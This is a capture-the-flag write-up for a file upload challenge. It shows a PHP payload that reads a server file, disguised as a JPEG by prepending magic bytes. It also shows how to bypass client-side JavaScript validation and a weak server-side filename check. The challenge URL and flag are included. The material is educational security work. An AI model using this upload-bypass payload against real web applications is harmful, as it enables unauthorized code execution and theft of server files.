




# The Evil Assignment on Canvas

Oh no, when you're "chilling" with this CTF, your evil professor has given you an impossible assignment on Canvas, which dues tomorrow! The only way to pass his course is to pwn him! The show will never end! Let's go VinUni hackeerrrsss!

Challenge URL: http://ctflag.vhc.asia:13373/

## Techniques

PHP, JavaScript, file signature, client-side validation

## Solution

You are given a free hint that says.

```
You may need to search about "File Upload Vulnerability".

So basically, the idea behind the exploitation of this challenge is to construct a .php file that reads the Final Exam Answers. Then, we upload that php file on the website and try to execute it.
```

Look at the website. We are given another hint that the flag file is at `/var/www/FinalExamAnswers.txt`.



Just as hinted, we are asked to upload a PHP file to extract the flag at that directory. But the website forces us to upload JPEG images only instead.

Now let's play around with this website for a little bit. Upload [this](yuu.jpg) and see it does nothing! What a shame that this website puts such a small size limit.

Ok, how about [this one](kek.jpg)? 30KB should be small enough.



And yes, successfully submitted. It shows my GitHub avatar!

The requirements should be clear now:
- Upload a small JPEG file of less than 30KB (I suppose).
- Somehow inject the PHP code to show the flag.

Ok, so how do computers recognize a file format? Besides file name extensions, there is another thing called [magic number](https://en.wikipedia.org/wiki/File_format#Magic_number) in Unix systems, which is the first identifier bytes in a file. For JPEG images, their magic number is `FF D8 FF`, which is the first 3 bytes in hexadecimal.

Now for the PHP code. We are given the directory of the flag file, and then we need to build a PHP page to display it. Below is my code.

```php
<?php $fn = "/var/www/FinalExamAnswers.txt";
$myfile = fopen($fn, "r");
$content = fread($myfile,filesize($fn));
$lines = explode("\n", $content);
fclose($myfile);
?>
<html>
    <head>
    <title>Flag 700 ez</title>
    </head>
    <body>
        <h1><?php print_r($lines) ?></h1>
    </body>
</html>
```

Save it into a PHP file. Then inject the magic bytes `FF D8 FF` by using a Hex editor program. Play around with it, and the [hex dump](hexdump.txt) of the resulting file should be like this. Notice the first 3 bytes `ff d8 ff` in the dump.

```
00000000  ff d8 ff 3c 3f 70 68 70  20 24 66 6e 20 3d 20 22  |...<?php $fn = "|
00000010  2f 76 61 72 2f 77 77 77  2f 46 69 6e 61 6c 45 78  |/var/www/FinalEx|
00000020  61 6d 41 6e 73 77 65 72  73 2e 74 78 74 22 3b 0d  |amAnswers.txt";.|
00000030  0a 24 6d 79 66 69 6c 65  20 3d 20 66 6f 70 65 6e  |.$myfile = fopen|
00000040  28 24 66 6e 2c 20 22 72  22 29 3b 0d 0a 24 63 6f  |($fn, "r");..$co|
00000050  6e 74 65 6e 74 20 3d 20  66 72 65 61 64 28 24 6d  |ntent = fread($m|
00000060  79 66 69 6c 65 2c 66 69  6c 65 73 69 7a 65 28 24  |yfile,filesize($|
00000070  66 6e 29 29 3b 0d 0a 24  6c 69 6e 65 73 20 3d 20  |fn));..$lines = |
00000080  65 78 70 6c 6f 64 65 28  22 5c 6e 22 2c 20 24 63  |explode("\n", $c|
00000090  6f 6e 74 65 6e 74 29 3b  0d 0a 66 63 6c 6f 73 65  |ontent);..fclose|
000000a0  28 24 6d 79 66 69 6c 65  29 3b 0d 0a 3f 3e 0d 0a  |($myfile);..?>..|
000000b0  3c 68 74 6d 6c 3e 0d 0a  20 20 20 20 3c 68 65 61  |<html>..    <hea|
000000c0  64 3e 0d 0a 20 20 20 20  3c 74 69 74 6c 65 3e 46  |d>..    <title>F|
000000d0  6c 61 67 20 37 30 30 20  65 7a 3c 2f 74 69 74 6c  |lag 700 ez</titl|
000000e0  65 3e 0d 0a 20 20 20 20  3c 2f 68 65 61 64 3e 0d  |e>..    </head>.|
000000f0  0a 20 20 20 20 3c 62 6f  64 79 3e 0d 0a 20 20 20  |.    <body>..   |
00000100  20 20 20 20 20 3c 68 31  3e 3c 3f 70 68 70 20 70  |     <h1><?php p|
00000110  72 69 6e 74 5f 72 28 24  6c 69 6e 65 73 29 20 3f  |rint_r($lines) ?|
00000120  3e 3c 2f 68 31 3e 0d 0a  20 20 20 20 3c 2f 62 6f  |></h1>..    </bo|
00000130  64 79 3e 0d 0a 3c 2f 68  74 6d 6c 3e              |dy>..</html>|
0000013c
```

Change the file extension to `.jpg` in case you forget it, and upload again to the website.



But still, it doesn't seem to work. How about changing the file name to `something.jpg.PHP`?

Of course the website won't allow uploading any files except JPEG ones. But we can work around this problem by using F12 Tools!

Find the source code of the website, and we can see there is a file `filtr.js` that does the client-side validation of the uploading file.

```js
window.onload = function(){
	var upload = document.getElementById("fileSelect");
	var errorMsg = document.getElementById("errorMsg");
	var uploadMsg = document.getElementById("uploadtext");
	upload.value="";
	upload.addEventListener("change",function(event){
		var file = this.files[0];
		if (file.type != "image/jpeg"){
			upload.value = "";
			uploadMsg.style = "display : none;";
			errorMsg.style="display : block;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			uploadMsg.style = "display : block;";
			errorMsg.style="display : none;";
			success();
		}
	});
};
```

Basically it tells that if a file extension is not of `image/jpeg` type then the form does not repond. Just delete that part of code and the website will allow us to upload PHP files.

It works now!



We have actually uploaded a PHP file instead of a JPEG one. The problem is that the website has done "magic number" verification on the server-side, but it only checks whether `jpg` or `jpeg` is IN the filename, but not the actual file extension, and that's why we can find the flag in this way. 

If the server also checks for file extension, the challenge will become much more difficult and we may need to find any misconfiguration of the server to run PHP code in JPG file.

You can search for this keyword: `inject PHP into jpg`. I have uploaded my file [here](payload.jpg.php). You can refer to it.

## The Flag
```
VHC2022{l3v3L_4_c0d3_0f_c0ndUcT_v10l4t10n_f0R_pWn1nG_uR_pR0f}
```

Anyway, don't try to hack into [VinUni Canvas](https://vinuni.instructure.com/) for real unless you want a Level 4 Code of Conduct violation.
